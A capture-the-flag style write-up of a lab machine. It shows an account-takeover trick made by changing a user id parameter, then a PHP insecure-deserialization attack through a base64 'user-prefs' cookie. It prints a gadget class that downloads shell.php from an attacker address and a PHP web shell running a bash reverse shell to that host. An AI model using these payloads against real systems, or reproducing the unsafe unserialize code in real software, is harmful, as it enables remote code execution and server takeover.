 After logging in and seeing the profile we have the opportunity to change credentials. The way that's passed to the webapp is: **username=&email=&password=password&id=6**. Now I did a little trolling and set id to 1 and password to password and it locked me out of my account. 

<h1>User as www-data</h1>

<h2>Insecure deserialization</h2>

I looked around for a bit longer and didn't see any foothold or exploit in sight, back to the local file reading. Back in utils.php I came across a cookie name with a value that is deserialized. 

```php
function get_theme() {
    if (isset($_SESSION['id'])) {
        if (!isset($_COOKIE['user-prefs'])) {
            $up_cookie = base64_encode(serialize(new UserPrefs()));
            setcookie('user-prefs', $up_cookie);
        } else {
            $up_cookie = $_COOKIE['user-prefs'];
        }
        $up = unserialize(base64_decode($up_cookie));
        return $up->theme;
    } else {
        return "light";
    }
}
```

Maybe I can create some code, encode it in base64, then set it as the cookie named user-prefs? Let's try it, but we'll need to modify this attack a bit to work. Firstly I'll overwrite the class AvatarInterface to be the following:

```php
<?php
class AvatarInterface {
    public $tmp = "http://10.10.14.14:8000/shell.php";
    public $imgPath = "./shell.php"; 

    public function __wakeup() {
        $a = new Avatar($this->imgPath);
        $a->save($this->tmp);
    }
}

$payload = base64_encode(serialize(new AvatarInterface));
echo $payload
?>
```

Then I make the shell I'll retrieve:

```php
<?php
  system("bash -c 'bash -i >& /dev/tcp/10.10.14.14/7777 0>&1'")
?>
```
